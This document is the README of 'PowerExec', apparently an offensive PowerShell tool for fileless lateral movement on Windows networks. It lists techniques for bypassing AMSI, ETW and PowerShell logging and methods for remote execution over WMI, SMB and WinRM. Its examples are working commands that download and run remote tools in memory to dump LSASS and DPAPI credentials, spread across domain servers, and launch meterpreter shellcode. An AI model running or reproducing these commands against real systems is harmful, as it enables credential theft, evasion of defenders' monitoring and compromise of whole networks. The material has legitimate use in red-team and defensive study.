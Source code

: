 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
New-PowerLoader                 -   builds PowerShell script block for in-memory execution of various payload types
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                |
| --------- | -------------------------- |
| PoSh      | PowerShell script          |
| NetAsm    | .NET assembly executable   |
| PE        | Windows PE file (EXE/DLL)  |
| Shellcode | Shellcode in binary format |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.

Please note that PE and shellcode execution output will only be retrieved when run locally, not remotely.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |
| PRM    | Disable PowerShell Readline Module                       |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                            | Covert channel               | Run as       |
| --------------- | ------------------------------------------------------ | ---------------------------- | ------------ |
| CimProcess      | Create process via WMI                                 | WMI property 'DebugFilePath' | Current user |
| CimService      | Create temporary service via WMI                       | WMI property 'DebugFilePath' | SYSTEM       |
| CimSubscription | Create temporary WMI event subscription (experimental) | WMI property 'DebugFilePath' | SYSTEM       |
| CimTask         | Create temporary scheduled task via WMI                | WMI property 'DebugFilePath' | SYSTEM       |
| SmbDcom         | Create DCOM instance via DCE/RPC                       | SMB named pipe               | Current user |
| SmbService      | Create temporary service via DCE/RPC                   | SMB named pipe               | SYSTEM       |
| SmbTask         | Create temporary scheduled task via DCE/RPC            | SMB named pipe               | SYSTEM       |
| WinRM           | Run powershell via Windows Remote Management           | PowerShell Remoting          | Current user |

Depending on the method used, a covert channel is established in order to deliver the payload and to retrieve execution output.

Please note that multi-threading is supported for WinRM method only.
For WMI/CIM methods, the transport protocol can be chosen between DCOM and WSMAN.


## Examples

Run a remote PE locally while bypassing PowerShell Module Logging and Script Block Logging and AMSI:

```
PS C:\> & (New-PowerLoader -Type PE -FileUrl 'https://raw.githubusercontent.com/fortra/nanodump/main/dist/nanodump_ssp.x64.exe' -ArgumentList '-w','C:\Windows\Temp\lsass.dmp' -Bypass PML,SBL,AMSI)
```

Run a PowerShell script on domain servers through WinRM while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers -Threads 20
```

Run a .NET assembly on remote hosts through WMI while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -Authentication Default -ComputerList 192.168.1.1,192.168.1.2
```

Run a raw shellcode by creating a new process on a remote host through a temporary service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin -SpawnProcess notepad.exe | Invoke-PowerExec -Method SmbService -ComputerList 192.168.1.1
```


## Acknowledgments

PowerLoader is inspired by the following researches:

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw

PowerExec is inspired by the following researches:

  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
  * https://blog.harmj0y.net/empire/expanding-your-empire/
  * https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
